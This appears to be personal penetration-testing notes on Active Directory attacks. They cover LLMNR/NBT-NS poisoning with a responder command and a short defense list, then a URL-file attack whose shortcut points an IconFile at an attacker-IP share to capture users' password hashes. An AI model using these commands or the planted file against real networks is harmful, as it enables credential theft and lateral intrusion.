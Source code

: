 summary

- start responder and mitm6 in the network
- scan and sweep the network range for hosts and open ports
- find open websites ,use http_version msf module for stealthy sweep
- try default credentials in printers,web logins etc and try to gain access from there





## LLMNR/NBT-NS poisoning

This attack happens when any user or computer request a resource or ip which the network dns fails to resolve(Meaning they either mistyped or requesting non existing resource).LLMNR is a Windows AD feature which tries to resolve request when DNS fails..We as an attacker can respond to the user using a tool called responder and act as a LLMNR server.LLMNR key flaw is that it requires user hash to work.We request users hash from the user and say we will resolve their request and this way we perform a mitm attack inside a AD network

NOte: This attack assumes we have network access same as the target

1. Run responder

> responder -I interface(eth0,tun0 etc) -rdw

2. Assume a user on the network tries to connect to a wrong smb share ,we will act as a llmnr server because dns fails and get the hash

> \\shre 

3. we get the hash and now can crack it ,pass the hash etc

Defense against LLMNR poisoning:
1. Disable LLMNR and NBT-NS
2. If LLMNR is required by the company ,then enforce NAC or network access control which means that only the devices with authorized MAC addresses can connect to the internal network.
3. Set comnplex Password policy so captured hash cannot be cracked easily



## Url File Attacks (requires access to a domain machine and a writabele share)

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#scf-and-url-file-attack-against-writeable-share

In this attack we create a url file ,pointing towards our ip address and then upload this file to a writable share with a appropriate name starting with @ or - so that the file is on top when any user access that share.We run responder on our machine and then wait for any user to open the file and we can grab the hash just like we did before. This requires access to any domain machine

1. create a file with following text and name it like "@anyname.url"

[InternetShortcut]
URL=blah
WorkingDirectory=blah
IconFile=\\AttackerIP\%USERNAME%.icon
IconIndex=1
 